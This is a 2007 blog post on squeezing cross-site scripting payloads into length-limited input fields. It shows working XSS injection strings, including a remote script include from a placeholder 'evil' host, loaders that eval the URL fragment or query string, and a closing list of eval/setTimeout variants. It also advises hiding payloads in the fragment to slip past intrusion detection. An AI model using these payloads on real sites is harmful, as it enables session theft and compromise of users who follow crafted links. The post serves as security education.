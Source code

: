 ```yaml
---
title: Playing in Large
author: pdp
date: Tue, 06 Feb 2007 14:18:53 GMT
template: post.jade
---
```


> Many times, Web Applications enforce restrictions on the number of characters the user can input. That happens quite often since this is probably the easiest and most obvious way of sanitizing the user input. Overcoming these restrictions, when performing Cross-site scripting attacks, is a challenge, so I am going to discuss a few techniques that I have developed, which prove to be quite useful in various situations.

When you are restricted by the size of input, you have to think about the smallest possible unit that can expand to something that is much bigger. In traditional buffer overflow vulnerabilities attackers take advantage of various packaging techniques. Sometimes, the overflow crack is so small that only 140-160 bites (figuratively speaking) of data can squeeze in. This obstacle is overcome by injecting small piece of binary code that downloads additional, much larger, piece of code (probably an executable). Similar principles apply to Cross-site scripting vulnerabilities. Let's generalize the XSS payload structure in order to find how to squeeze data into a **N** characters long field.

When dealing with Cross-site scripting vulnerabilities we may need to close or fix the markup to the place where the injection occurs. This adds a few characters, so we need to count them as part of the payload. Think about them as a nop sled. If the injection occurs inside an element attribute, you may need to inject something like the following:

	">[payload]<!--

The first two characters will close/fix the markup to the place where the injection occurs. Then the payload follows. After the payload everything else is commented out to ensure that nothing breaks the injected code. This adds four characters at the end.

Most of the time, when more then the maximum characters needs to be inject, attackers go through the extreme situation of including a remote JavaScript file via a `SCRIPT` tag. For example:

	"><script src="http://path/to/evil"></script><!--

This file can be of any size and can contain as much code as we want. However, like overflow vulnerabilities, this technique is fairly restricted in terms of the easily applicable preventing mechanisms against it.

If you imagine that the payload, discussed above, is part of an AJAX worm, the easiest way to fight the malware back is to block access to `http://path/to/evil`. That of course is not the desired effect attackers try to achieve.

In order to bypass the restriction without using external resources you need to look for a way of transmitting information to the exploited target. This can be achieved by setting the cookie wit CSRF, for example, and evaluating its content inside the browser. The following may become our payload:

	"><script>eval(document.cookie)</script><!--

Sneaky! This technique relies on a different vulnerability so it might not be the best way of achieving the desires result.

Fortunately or not, WEB technologies are so flexible that attackers can always find ways to squeeze stuff in the fields they are after. Here is how we can change the payload in order to fit a couple of kilobytes JavaScript code inside 60 characters long field.

	"><script>eval(location.hash.substr(1))</script><!--

The payload above is composed of 55 characters in total. This includes the sled and the end fix. What this snippet does is evaluating everything that is part of the hash (fragment identifier), which is part of the URL. The above payload can be translated into the following imaginative attack URL.

	http://path/to/vulnerable/application?vuln="><script>eval(location.hash.substr(1))</script><!--#**[payload]**

If you replace "**[payload]**" with the code your want to execute then in practice you inject 55 characters into the server side application and the rest is obtained by the client. The server side restriction is bypassed. This attack can be refined to produce even smaller injected payload. For example:

	http://path/to/vulnerable/application?vuln="><script>eval(location.substr(92))</script><!--#**[payload]**

The example above presents a reduced payload that is composed of 48 characters in total. Keep in mind that we are still able to evaluate everything that is after the hash or in simple words; we evaluate everything from the URL after the 92nd character.

Although we are generally discussing how to fit more stuff into a size restricted, unsanitezed field, the techniques presented above are suitable for all kind of situations. In fact, I believe that they are the desired way of performing Cross-site scripting attacks.

You should know that fragment identifier (the hash) is not part of the server request; as such attackers can use it to hide their malicious activities. Every large URL can trigger the Intrusion Detection system. This is something that attackers try to avoid. If the server activities are less suspicious, the chances of somebody discovering the exploit are also greatly reduced.

For testing and demonstration purposes you can use the following list of variations of the attack technique discussed in this article:

```javascript
eval(location.substr(92))
setTimeout(location.substr(92))
```

```javascript
eval(location.hash.substr(1))
setTimeout(location.hash.substr(1))
```

```javascript
eval((''+location).substr(28))
setTimeout((''+location).substr(28))
```

```javascript
eval(location.search.substr(20))
setTimeout(location.search.substr(20))
```
